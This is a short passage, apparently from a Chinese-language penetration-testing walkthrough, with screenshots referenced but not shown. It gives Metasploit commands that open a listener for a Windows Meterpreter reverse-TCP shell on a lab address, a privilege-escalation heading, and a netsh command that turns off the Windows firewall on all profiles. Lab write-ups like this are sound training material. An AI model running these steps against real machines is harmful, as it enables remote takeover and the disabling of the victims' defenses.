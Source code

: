 在msf上开启监听

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 192.168.130.130

set LPORT 8888

exploit

![img](assets/1691767425136-6210ef6d-32d6-41dc-9813-1319a7ce5a93.png)

提权

![img](assets/1691767371862-5b56fca1-1503-4e4b-a76f-5c6ad2ae261c.png)

关闭防火墙

```
NetSh Advfirewall set all profiles state off
```

![img](assets/1691767702826-2775ac68-1f67-4dda-a97a-1ca7b8dc83ea.png)